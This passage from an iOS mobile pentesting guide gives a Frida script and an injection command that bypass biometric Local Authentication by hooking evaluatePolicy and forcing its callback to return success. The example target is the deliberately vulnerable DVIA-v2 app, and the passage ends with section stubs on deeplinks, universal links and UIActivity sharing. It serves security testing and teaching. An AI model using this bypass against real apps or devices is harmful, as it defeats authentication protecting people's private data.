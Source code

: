 To achieve the **bypass** of Local Authentication, a Frida script is written. This script targets the **evaluatePolicy** check, intercepting its callback to ensure it returns **success=1**. By altering the callback's behavior, the authentication check is effectively bypassed.

The script below is injected to modify the result of the **evaluatePolicy** method. It changes the callback's result to always indicate success.

```swift
// from https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/
if(ObjC.available) {
    console.log("Injecting...");
    var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
    Interceptor.attach(hook.implementation, {
        onEnter: function(args) {
            var block = new ObjC.Block(args[4]);
            const callback = block.implementation;
            block.implementation = function (error, value)  {

                console.log("Changing the result value to true")
                const result = callback(1, null);
                return result;
            };
        },
    });
} else {
    console.log("Objective-C Runtime is not available!");
}
```

To inject the Frida script and bypass the biometric authentication, the following command is used:

```bash
frida -U -f com.highaltitudehacks.DVIAswiftv2 --no-pause -l fingerprint-bypass-ios.js
```

## Sensitive Functionality Exposure Through IPC

### Custom URI Handlers / Deeplinks / Custom Schemes

{{#ref}}
ios-custom-uri-handlers-deeplinks-custom-schemes.md
{{#endref}}

### Universal Links

{{#ref}}
ios-universal-links.md
{{#endref}}

### UIActivity Sharing

{{#ref}}
ios-uiactivity-sharing.md
{{#endref}}
